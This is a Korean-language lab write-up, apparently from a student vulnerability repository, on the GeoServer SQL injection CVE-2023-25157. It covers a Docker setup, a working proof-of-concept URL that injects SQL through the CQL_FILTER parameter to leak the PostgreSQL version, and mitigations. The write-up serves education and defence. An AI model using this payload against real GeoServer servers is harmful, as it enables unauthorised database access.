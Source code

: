 
# GeoServer SQL Injection 취약점 (CVE-2023-25157)


### Github repository

- 31반 조성원 github 레포:  [/legendwon/kr-vulhub/tree/main/GeoServer%20OGC%20%ED%95%84%ED%84%B0%20SQL%20%EC%A3%BC%EC%9E%85(CVE-2023-25157)](https://github.com/legendwon/kr-vulhub/tree/main/GeoServer%20OGC%20%ED%95%84%ED%84%B0%20SQL%20%EC%A3%BC%EC%9E%85(CVE-2023-25157))
- 31반 조성원 Pull Request 링크 : https://github.com/gunh0/kr-vulhub/pull/289

## 1. 개요

**GeoServer**는 지리공간 데이터를 웹에서 서비스하는 오픈소스 서버입니다. GeoServer는 OGC(국제 지리공간 표준 기구) 표준을 따르며, CQL 필터(Query Language Filter)를 사용할 수 있습니다. 그러나 필터 입력값을 제대로 검증하지 않아 악의적인 SQL 코드를 삽입할 수 있는 취약점이 존재합니다.

### References:
- [CVE-2023-25157 on GitHub](https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2023-25157)

## 2. 환경 구축

다음 명령어를 통해 GeoServer와 PostgreSQL을 실행합니다.

```bash
docker compose up -d
```

서버가 시작된 후, [http://localhost:8080/geoserver/web/?1](http://localhost:8080/geoserver/web/?1) 에 접속합니다.


## 3. 취약점 설명

**GeoServer** 2.22.1 및 2.21.4 이전 버전에서 OGC 표준에 정의된 CQL 필터에서 **SQL 주입** 취약점이 발견되었습니다. 이를 통해 악의적인 사용자는 GeoServer의 요청을 조작하여 **PostGIS 데이터베이스**에 대한 SQL 주입 공격을 수행할 수 있습니다.

### SQL 주입 원리

GeoServer는 WFS(Web Feature Service) 요청에서 **CQL (Common Query Language)** 필터를 사용해 데이터를 검색하는 기능이 있습니다. 그러나 이 필터 처리 과정에서 SQL 쿼리가 적절하게 필터링되지 않아 공격자가 SQL 주입을 통해 Postgres 데이터베이스에 접근할 수 있습니다.

```python
http://localhost:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```

### WFS 서비스

![server-start](./2.png)

GeoServer는 WFS 1.0.0 버전에서 `vulhub:example` 피쳐를 확인할 수 있습니다.

![server-start](./1.png)

이 SQL Injection을 통해 PostgreSQL의 버전 정보를 확인할 수 있습니다.
![server-start](./3.png)



**URL 설명:**
- **geoserver/ows**: GeoServer의 OWS (Open Web Services) 엔드포인트를 통해 다양한 서비스 요청을 할 수 있습니다.
- **service=wfs**: Web Feature Service(WFS)를 호출하는 매개변수입니다.
- **version=1.0.0**: 요청하는 WFS 서비스의 버전입니다.
- **request=GetFeature**: GetFeature 요청을 통해 지정된 피처를 가져옵니다.
- **typeName=vulhub:example**: 요청할 피처의 유형을 지정합니다.
- **CQL_FILTER=strStartsWith(name, 'x') = true**: CQL에서 name 필드 값이 'x'로 시작하는지 확인합니다.
- **and 1 = (SELECT CAST((SELECT version()) AS integer)) -- ‘**: SQL Injection을 통해 PostgreSQL 버전 정보를 조회할 수 있습니다.

### SQL Injection을 통한 PostgreSQL 버전 정보 확인

위 URL을 통해 SQL 주입 공격을 성공시키면 PostgreSQL 버전 정보가 반환됩니다.

## 4. 대응 방안

1. **업데이트 및 패치 적용**
    - 취약한 버전(GeoServer 2.22.1 및 2.21.4 이전 버전)을 사용하는 경우, **최신 버전으로 즉시 업데이트** 해야 합니다. GeoServer는 해당 취약점에 대한 보안 패치를 이미 제공하고 있으며, 이를 적용함으로써 취약점을 해결할 수 있습니다.
    
    [GeoServer](https://geoserver.org/)
    
2. **입력 검증 및 필터링 강화**
    - GeoServer는 **CQL_FILTER** 매개변수에 대한 입력 검증을 강화해야 합니다. SQL 주입을 방지하려면 사용자 입력을 **철저히 검증**하고, Prepared Statements를 사용하여 SQL 인젝션을 차단해야 합니다.
